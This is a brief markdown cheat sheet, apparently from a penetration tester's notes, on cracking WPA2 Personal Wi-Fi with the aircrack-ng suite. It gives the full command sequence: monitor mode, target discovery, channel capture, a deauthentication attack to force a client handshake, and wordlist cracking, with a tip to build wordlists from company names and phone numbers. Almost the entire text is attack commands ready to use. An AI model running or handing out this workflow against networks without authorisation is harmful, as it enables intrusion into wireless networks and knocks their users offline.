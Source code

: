 # Hacking Wifi

## WPA2 Personal
### Notes
Custom wordlist - Company name, all phone numbers, company info
Run all possible combinations of phone numbers

### Aircrack
```bash
# Monitor mode
airmon-ng start <wlan adapter>

# Find the target
airodump-ng <wlan adapter mon>

# Narrow down by channel
airodump-ng -c <channel> --bssid <mac> -w <cap file> <ifacemon>

# Deauth Attack
New Terminal
aireplay-ng -0 1 -a <mac of AP> -c <mac of client> <ifacemon>

#Look for WPA Handshake before closing airodump

# Crack the key
aircrack-ng -w <wordlist> -b <AP Mac Address> <capturefile .cap>
```
